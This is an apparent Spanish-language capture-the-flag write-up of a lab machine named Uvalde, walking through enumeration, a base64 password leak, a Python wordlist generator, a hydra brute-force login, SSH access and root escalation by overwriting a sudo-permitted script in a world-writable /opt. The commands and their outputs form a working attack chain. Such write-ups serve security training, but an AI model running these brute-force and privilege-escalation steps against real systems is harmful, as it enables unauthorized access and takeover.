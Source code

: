 # Momentum VH

- Ip atacante - 10.0.2.4
- Ip victima - 10.0.2.14

Comencemos con un scaneo rapido de nmap dentro de estos encontramos 

![](img/uvalde1.png)

Ya que con el escaneo de nmap nos dice que se puede acceder anonimamente al ftp eso es lo primero que realizo

![](img/uvalde2.png)

viendo el archivo output la verdad solo se que hay un usuario Matthew.
Me confirma que es un usuario Linux y me muestra un ejemplo de los comandos que corrio antereriormente

##80 http

Continuare viendo el http la cual es una pagina completamente normal.
Lanzando la herramienta gobuster encontramos nuevos directorios

``` 
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.14 -x .php,.html     
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.14
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2023/02/23 13:02:55 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 274]
/.html                (Status: 403) [Size: 274]
/index.php            (Status: 200) [Size: 29604]
/img                  (Status: 301) [Size: 304] [--> http://10.0.2.14/img/]
/login.php            (Status: 200) [Size: 1022]
/user.php             (Status: 302) [Size: 0] [--> login.php]
/mail                 (Status: 301) [Size: 305] [--> http://10.0.2.14/mail/]
/css                  (Status: 301) [Size: 304] [--> http://10.0.2.14/css/]
/js                   (Status: 301) [Size: 303] [--> http://10.0.2.14/js/]
/success.php          (Status: 302) [Size: 0] [--> login.php]
/vendor               (Status: 301) [Size: 307] [--> http://10.0.2.14/vendor/]
/create_account.php   (Status: 200) [Size: 1003]
/.html                (Status: 403) [Size: 274]
/.php                 (Status: 403) [Size: 274]
/server-status        (Status: 403) [Size: 274] 
```

De estos los mas interesantes son el /login y /create_account.php
Lanzando un ataque de fuerza bruta mediante hydra me dice que el login es de matthew y el password 123456 sin embargo cuando intento entrar no me lo permite.

``` 
curl --url "http://10.0.2.14/create_account.php" -X POST -d "username=test1" -i -v  
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.0.2.14:80...
* Connected to 10.0.2.14 (10.0.2.14) port 80 (#0)
> POST /create_account.php HTTP/1.1
> Host: 10.0.2.14
> User-Agent: curl/7.87.0
> Accept: */*
> Content-Length: 14
> Content-Type: application/x-www-form-urlencoded
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Found
HTTP/1.1 302 Found
< Date: Thu, 23 Feb 2023 18:18:58 GMT
Date: Thu, 23 Feb 2023 18:18:58 GMT
< Server: Apache/2.4.54 (Debian)
Server: Apache/2.4.54 (Debian)
< Set-Cookie: UserName=registred; expires=Thu, 23-Feb-2023 19:18:58 GMT; Max-Age=3600
Set-Cookie: UserName=registred; expires=Thu, 23-Feb-2023 19:18:58 GMT; Max-Age=3600
< Location: success.php?dXNlcm5hbWU9dGVzdDEmcGFzc3dvcmQ9dGVzdDEyMDIzQDU0NjQ=
Location: success.php?dXNlcm5hbWU9dGVzdDEmcGFzc3dvcmQ9dGVzdDEyMDIzQDU0NjQ=
< Content-Length: 1031
Content-Length: 1031
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8

----> Aqui iba el codigo de la pagina <----

Account successfully * Connection #0 to host 10.0.2.14 left intact
created 
```

Si nos damos cuenta en el Location nos deja un texto en base64 que si lo decodeamos nos resulta lo siguiente

```
echo 'dXNlcm5hbWU9dGVzdDEmcGFzc3dvcmQ9dGVzdDEyMDIzQDU0NjQ=' | base64 -d;echo  
username=test1&password=test12023@5464
```

Si hago este proceso me puedo dar cuenta que siempre es el mismo formato
del password nombre2023@XXXX 

Las X serian 4 numeros aleatorios
Para esto tenemos que crear nuestro diccionario asi que cree un pequeño programa con python para generar las claves.

```
user = 'matthew2023@'

with open('test.txt', 'w') as f:
        for num in range(1,10000):
                correct_num = str(num).zfill(4)
                f.write(user+correct_num+'\n')
```

Con este programa se crearon las contraseñas en un archivo llamado test.txt 
Ahora solo queda hacer fuerza bruta con hydra

```
hydra -l matthew -P test.txt 10.0.2.14 http-post-form '/login.php:username=matthew&password=^PASS^:<input type="submit" value="Login">' 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-23 13:56:00
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9999 login tries (l:1/p:9999), ~625 tries per task
[DATA] attacking http-post-form://10.0.2.14:80/login.php:username=matthew&password=^PASS^:<input type="submit" value="Login">
[80][http-post-form] host: 10.0.2.14   login: matthew   password: matthew2023@1554
```

Una vez logramos obtener usuario y contraseña podemos ingresar por el ssh

##22 ssh

Encontramos de primeras la primera flag

```
matthew@uvalde:~$ cat user.txt 
6e4136fbed8f8c691996dbf42697d460
```

Ahora dentro de la maquina buscamos la manera de escalar privilegios

```
matthew@uvalde:/opt$ sudo -l
Matching Defaults entries for matthew on uvalde:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User matthew may run the following commands on uvalde:
    (ALL : ALL) NOPASSWD: /bin/bash /opt/superhack
matthew@uvalde:/opt$ ls -ld /opt/
drwx---rwx 2 root root 4096 Feb  5 10:03 /opt/
matthew@uvalde:/opt$ mv superhack superhack.back
matthew@uvalde:/opt$ echo 'bash' > superhack
matthew@uvalde:/opt$ cd ..
matthew@uvalde:/$ sudo /bin/bash /opt/superhack
root@uvalde:/# cd /root
root@uvalde:~# ls
root.txt
root@uvalde:~# cat root.txt 
59ec54537e98a53691f33e81500f56da
```

Y asi terminamos la maquina Uvalde